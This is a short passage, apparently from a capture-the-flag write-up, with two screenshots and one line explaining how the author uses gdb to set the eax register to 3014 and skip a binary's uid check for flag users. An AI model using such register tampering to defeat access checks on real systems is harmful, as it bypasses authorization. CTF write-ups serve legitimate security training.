

As we can see it tries to compare our uid with all the uid of flag users, so we then run **set $eax = 3014** and then **continue**.

